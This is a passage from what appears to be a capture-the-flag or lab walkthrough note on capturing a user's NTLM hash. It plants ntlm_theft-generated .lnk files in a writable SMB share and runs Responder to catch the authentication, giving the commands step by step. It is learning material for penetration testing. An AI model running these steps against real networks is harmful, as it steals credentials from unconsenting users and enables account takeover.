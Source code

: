 While you are on SMB realize that the files here are being renamed or replaced. This means that a user accesses this share regularly. 
Since the file names are changing we can come to an assumption that someone might be accessing the contents in the `**onboarding**` directory. Let's try to make use of this to steal a `**NTLM**` hash of the user that might be making the changes within the share.

We also note that we have write access to the share.

## NTLM Theft

A tool for generating multiple types of NTLMv2 hash theft files.

ntlm_theft is an Open Source Python3 Tool that generates 21 different types of hash theft documents. These can be used for phishing when either the target allows smb traffic outside their network, or if you are already inside the internal network.  More [info](https://github.com/Greenwolf/ntlm_theft).

You can see an example [here](https://www.hackingarticles.in/multiple-files-to-capture-ntlm-hashes-ntlm-theft/).

- Install ntlm_theft.
- Run the following code:
	`python3 ntlm_theft.py -g all -s \<MACHINE IP\> -f exploit`
	
	The -f option will place all of them in the folder you choose.

-  Go to the directory.


## Responder

Responder is a powerful hacking tool used in penetration testing and security assessments. It's designed to listen for specific network traffic, particularly LLMNR (Link-Local Multicast Name Resolution) and NBT-NS (NetBIOS Name Service) requests. When a device on the network tries to resolve a hostname, such as through a mistyped URL or accessing a non-existent resource, it may send out these requests.

Responder intercepts these requests and responds with fake or spoofed responses, tricking the requesting device into sending authentication credentials. This is particularly effective in environments where NTLMv1/NTLMv2 authentication is prevalent.

- Set up a responder on the eth0 interface on your attacking machine.
	`sudo responder -I tun0`
	
	![[Screenshot from 2024-08-09 19-40-55.png]]

- Upload the `*.lnk` file in `/Data/onboarding`.
	`smbclient \\\\MACHINE IP\\data -U ""`
		`smb: \> cd onboarding\`
		`smb: \onboarding\> put exploit.lnk` 

After a short time, we get the hash of the user `AUTOMATE` in Responder.

![[Screenshot from 2024-08-10 20-57-07.png]]

**Next step:** [[Cracking the hash]]
